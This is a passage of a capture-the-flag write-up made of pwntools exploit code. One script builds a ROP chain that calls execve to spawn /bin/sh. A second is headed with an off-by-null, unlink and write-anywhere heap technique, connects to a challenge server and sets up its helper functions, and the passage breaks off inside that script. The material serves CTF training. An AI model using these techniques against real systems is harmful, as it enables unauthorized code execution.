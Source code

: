 ```python
payload += 'a'*8
payload += flat(prdi,0,prsi,bss,prdx,0x3b,read,prdi,bss,prsi,0,prdx,0,syscall)

ru('>')
sl(base64.b64encode(payload))
ru('continue ?')
sl('no')
sleep(0.5)
se('/bin/sh\0'.ljust(0x3b,'\0'))

p.interactive()
```

### 玄冥

off by null -> unlink -> write anywhere 

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50007)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(sz):
    sl('1')
    ru('size:')
    sl(str(sz))
    ru('>>')

def show(idx):
    sl('2')
    ru('id:')
    sl(str(idx))
    ru('data:')

def edit(idx,sz,content):
    sl('3')
    ru('id:')
    sl(str(idx))
    ru('size:')
    sl(str(sz))
    ru('content:')
    se(content)
    ru('>>')

def delete(idx):
    sl('4')
```